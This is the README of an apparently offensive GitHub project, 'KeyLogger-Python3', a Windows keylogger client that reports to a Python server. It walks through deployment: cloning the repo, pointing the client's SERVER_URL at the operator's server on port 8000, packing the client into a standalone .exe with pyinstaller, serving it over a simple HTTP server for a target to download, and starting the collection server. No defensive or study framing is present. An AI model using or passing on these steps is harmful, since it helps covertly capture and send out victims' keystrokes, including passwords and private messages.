 # KeyLogger-Python3
- python 3.12++
# OS Agent/Client Subport
- Windows
# Server Setup
```
git clone https://github.com/passapol146990/KeyLogger-Python3.git

cd KeyLogger-Python3

python3 -m venv ./venv

source .venv/bin/activate

pip install -r requirement.txt

ip a
---- set server ip port 8000 ----

nano  ./client/client_p.py #SERVER_URL = "http://{server ip}:8000"

pyinstaller --onefile ./runKeyLogger.py
```
#Agent downsload File .exe in directory "dist"
```
cd dist

python3 -m http.server
```
# Run server
```
cd server

python server_p.py
```
